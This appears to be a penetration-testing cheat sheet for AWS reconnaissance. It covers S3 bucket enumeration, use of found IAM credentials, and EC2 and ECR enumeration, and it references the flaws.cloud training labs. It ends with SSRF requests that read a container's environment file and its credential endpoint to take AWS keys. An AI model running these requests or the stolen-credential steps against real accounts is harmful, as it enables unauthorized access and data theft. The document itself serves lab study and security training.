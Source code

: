 ## External and Internal Recon

> ## S3 enum

#### External/Public/Unauthenticated

1 - https://cloud.hacktricks.xyz/pentesting-cloud/aws-security/aws-unauthenticated-enum-access/aws-s3-unauthenticated-enum

2 - Discovering Bucket Names:

There are many ways to discover the names of Buckets. One of the easiest ways is when a company embeds content hosted in S3 on their website. Images, PDFs, etc., can all be hosted cheaply in S3 and linked from another site. These links will look like this: 
- ```http://BUCKETNAME.s3.amazonaws.com/FILENAME.ext``` or ```http://s3.amazonaws.com/BUCKETNAME/FILENAME.ext```

3 - Find public IP to see if it is s3 aws:
  - ```$ dig sub.domain.com``` and ```$ nslookup IP```
  - ```$ dig +nocmd flaws.cloud any +multiline +noall +answer``` and ```$ nslookup IP```

4 - Enumerate Bucket:
  - To test the openness of the bucket a user can just enter the URL in their web browser. A private bucket will respond with "Access Denied". A public bucket will list the first 1,000 objects that have been stored.

5 - Listing the Contents of Buckets:
  - ```$ curl http://BUCKETNAME.s3.amazonaws.com/```
  - ```$ aws s3 ls s3://irs-form-990/ --no-sign-request``` 

6 - Downloading Objects:
  - ```$ curl http://irs-form-990.s3.amazonaws.com/201101319349101615_public.xml```
  - ```$ aws s3 cp s3://irs-form-990/201101319349101615_public.xml . --no-sign-request```

 
#### Internal/Authenticated

- https://cloud.hacktricks.xyz/pentesting-cloud/aws-security/aws-services/aws-s3-athena-and-glacier-enum#enumeration

1 - Listing the Contents of Buckets:
  - ```aws s3 --profile YOUR_ACCOUNT ls s3://BUCKET-NAME```

2 - S3 misconfig series:

1. http://flaws.cloud/
2. http://flaws.cloud/hint1.html
3. http://flaws.cloud/hint2.html
4. http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/
5. http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/hint1.html
6. http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/
7. http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint1.html
8. http://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud/
9. http://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud/hint1.html
10. http://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud/hint2.html
11. http://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud/hint3.html
12. http://level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud/243f422c/hint2.html
13. http://level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud/243f422c/hint3.html
14. http://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff/
15. http://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff/hint1.html
16. http://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff/hint2.html 
17. http://theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud/d730aa2b/
18. http://level2-g9785tw8478k4awxtbox9kk3c5ka8iiz.flaws2.cloud/ (lambda leak envs with creds)


> ## IAM

1 - https://hackingthe.cloud/aws/general-knowledge/using_stolen_iam_credentials/
  - https://cloud.hacktricks.xyz/pentesting-cloud/aws-security/aws-basic-information#cli-authentication

When you find credentials to AWS, you can add them to your AWS Profile in the AWS CLI. For this, you use the command:

https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-files.html#cli-configure-files-using-profiles

```aws configure --profile PROFILENAME```

This command will add entries to the .aws/config and .aws/credentials files in your user's home directory.

```ProTip: Never store a set of access keys in the [default] profile. Doing so forces you always to specify a profile and never accidentally run a command against an account you don't intend to.```

2 - A few other common AWS reconnaissance techniques are:

  - Finding the Account ID belonging to an access key:
    - ```aws sts get-access-key-info --access-key-id AKIAEXAMPLE```

  - Determining the Username the access key you're using belongs to
    - ```aws sts get-caller-identity --profile PROFILENAME```

  - Listing all the EC2 instances running in an account
    - ```aws ec2 describe-instances --output text --profile PROFILENAME```

  - Listing all the EC2 instances running in an account in a different region
    - ```aws ec2 describe-instances --output text --region us-east-1 --profile PROFILENAME```

3 - Enum Policies

- https://cloud.hacktricks.xyz/pentesting-cloud/aws-security/aws-services/aws-iam-enum

- Get metadata of user
  - ```aws --profile PROFILE-NAME iam get-user```

- Get policies of user
  - ```aws --profile PROFILE-NAME iam list-attached-user-policies --user-name CURRENT-OR-OTHER```

- Get policy content
  - ```aws --profile PROFILE-NAME iam get-policy --policy-arn <policy_arn>```
  - ```aws iam get-policy-version --policy-arn <arn:aws:iam::975426262029:policy/list_apigateways> --version-id <VERSION_X>```


> ## EC2

#### Internal/Authenticated

- https://cloud.hacktricks.xyz/pentesting-cloud/aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum

- Discovery snapshots
  - ```aws --profile PROFILE-NAME ec2 describe-snapshots --owner-id ACCOUNT-ID```

- Snapshot Dump
  - https://cloud.hacktricks.xyz/pentesting-cloud/aws-security/aws-post-exploitation/aws-ec2-ebs-ssm-and-vpc-post-exploitation/aws-ebs-snapshot-dump
  - http://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud/hint1.html
  - http://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud/hint2.html
  - http://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud/hint3.html



> ## ECR (Elastic Container Registry)

#### Internal/Authenticated

- Get repos
  - ```aws ecr describe-repositories --profile PROFILE-NAME```
  - ```aws ecr describe-registry --profile PROFILE-NAME```


- Get image metadata
  - ```aws ecr list-images --repository-name <repo_name> --profile PROFILE-NAME```

  - ```aws ecr list-images --repository-name <repo_name> --resgistry-id ACCOUNT-ID --profile PROFILE-NAME```

  - ```aws ecr batch-get-image --repository-name level2 --registry-id 653711331788 --image-ids imageTag=latest | jq '.images[].imageManifest | fromjson'```

  - ```aws ecr get-download-url-for-layer --repository-name level2 --registry-id 653711331788 --layer-digest "sha256:..."```

- Login, Pull & Push
  - login - ```aws ecr --profile PROFILE-NAME get-login-password --region REGION | docker login --username AWS --password-stdin ACCOUNT-ID.dkr.ecr.REGION.amazonaws.com```
  - pull image - ```docker pull <account_id>.dkr.ecr.<region>.amazonaws.com/<img_name>:latest```


- Get image metadata
  - ```aws ecr describe-images --repository-name level2 --profile PROFILE-ID```


- SSRF in AWS ECS (Container Service)
  - https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#ssrf-in-aws-ecs-container-service-credentials
  - https://docs.aws.amazon.com/AmazonECS/latest/developerguide/task-metadata-endpoint-v2.html
  1. ```curl -v http://container.target.flaws2.cloud/proxy/file:///proc/self/environ -o environ```
  2. In "environ" output file found variable "AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" copy paste in next curl cli:
  3. ```curl -v http://container.target.flaws2.cloud/proxy/http://169.254.170.2/v2/credentials/cd0f067f-f28a-4f8a-ba76-0e697ec1d289```
  4. Get creds ...
